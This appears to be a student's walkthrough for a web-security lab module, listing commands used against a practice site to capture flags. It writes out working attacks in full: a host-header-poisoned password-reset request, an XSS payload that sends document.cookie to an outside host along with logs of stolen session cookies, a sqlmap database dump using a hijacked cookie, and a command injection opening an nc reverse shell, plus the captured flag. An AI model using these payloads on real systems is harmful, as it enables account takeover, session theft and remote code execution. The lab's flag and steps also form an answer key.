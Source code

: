 Welcome to Web Application Security Module \o/

Requirements
General
All your scripts will be tested on Kali Linux 2023.3
All your scripts should be exactly two lines long ($ wc -l file should print 2)
You must substitute the IP range for $1.
All your files should end with a new line (Why?)
The first line of all your files should be exactly #!/bin/bash.
A README.md file, at the root of the folder of the project, is mandatory
Your code should use the Betty style. It will be checked using betty-style.pl and betty-doc.pl
All your files must be executable

## task 2 flag (login/ and reset_password/)
- run your vpn file
- start ubuntu container
- you need to connect to the ubuntu sandbox, and make the request from there, edit the etc/hosts file (put the ip of the machine, and the domain: 
- start the cyber_websec0x00 container

### open another sandbox (you will have to sandbox, one to make the request an other to listen what the request produce.
python3 -m http.server -b :: 80
### command to make the request
curl -X POST "http://web0x00.hbtn/reset_password" -H "Host: 10.42.92.127" -d "email=yosri@web0x00.hbtn" 

- Use the token that you receive to gain access to the reset password, change the password, go to login, use the user (part of the email) and the newpassword.


## task 3-4 (/support)
3-xss_payload.txt
<script>fetch(`http://<ubuntu ip>/${document.cookie}`)</script>

- use the above script in the input (plain text) of the ticket, to send the malicious script as a support ticket  lol. 

┌──(kali㉿kali)-[~]
└─$ python3 -m http.server -b :: 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.8.0.6 - - [17/Apr/2024 05:19:24] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:19:24] "GET /reset_password/YDVzdvLIOuLYfuLZnBsInRGavJblcSnm HTTP/1.1" 404 -
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:06] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:06] "GET /session=.eJxFyjsKgDAQBcC7vDpIbFMpHsETJLhiID92E1TEu2sjtsNcGJfok8CsNggpTE1qjsSvVG4vzK2UzPUfFK0PMDizsB92cvrQuttcTVDwC0yv0IQ42Uhfw_0AkYMj6g.Zh-VNg.MWQCtcSPJKnMjlk_qnGfkV1mkb4 HTTP/1.1" 404 -
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:12] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:12] "GET /session=.eJxFyksKgCAURuG9_GMJmzoqWkIrULyR4AuvUhDtPaGBw_NxHqw2uMhQh_ZMAlvjmgKVIXvLOZXaoZbWm4J2Hgr8-3KRkbeU02lqhICzULNAYypRBxoj3g8vsSW4.Zh-VOg.8JCGXo-A0Wx1Ul5BVpaEfqRVIjU HTTP/1.1" 404 -

- run the paylod, and use the other sandbox to check for a different cookie, use that cookie in the support page to gain access and find the flag. 
- You have to put the cookie in webtools->storage-->cookie--> value



## task 5-6 
sqlmap -u "http://web0x00.hbtn/ticket?id=9" --cookie="session=.eJxFyksKgCAURuG9_GMJmzoqWkIrULyR4AuvUhDtPaGBw_NxHqw2uMhQh_ZMAlvjmgKVIXvLOZXaoZbWm4J2Hgr8-3KRkbeU02lqhICzULNAYypRBxoj3g8vsSW4.Z4BojQ.Hek5BhofOZUbW9No8AdLR5kweLw" --batch --dump

- The database will dumb a lot of info, you need to search for the adminpass. With this command your using a id parameter from a ticket that you maliciusly create.
- Go to the /admin panel to use the user and password that you casually founded lol.


exercise #8 flag - reverse shell
## sandbox
root@:/# nc -nlvp 80
Listening on 0.0.0.0 80

##paylod in admin's account
- http://web0x00.hbtn/admin
; ./nc your_ip_local 80 -e /bin/bash

Connection received on 10.42.74.137 35678
ls
__pycache__
app.py
db.sql
nc
nginx.conf
render.py
requirements.txt
static
templates
utils
web0x00.sqlite3
cd ..
ls
app
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd root/
ls
flag.txt
cat flag.txt
3845211fd4640c1d07072f4609500f0e

